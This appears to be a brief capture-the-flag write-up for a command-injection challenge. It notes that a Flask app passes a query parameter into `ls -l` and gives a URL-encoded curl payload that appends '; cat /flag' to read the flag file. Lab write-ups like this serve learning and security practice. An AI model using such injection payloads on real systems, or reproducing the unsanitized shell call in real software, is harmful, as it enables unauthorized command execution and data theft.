 # CMDi 1

```shell
cat /challenge/server
```

The Flask app takes a directory as query param (`/adventure?dir`) and executes `ls -l {dir}`
Can inject `; cat <flag>`

Start the server and use curl:

```shell
curl http://challenge.localhost:80/adventure?dir=.%3B%20cat%20%2Fflag
```

(URL-encoding of ".; cat /flag")
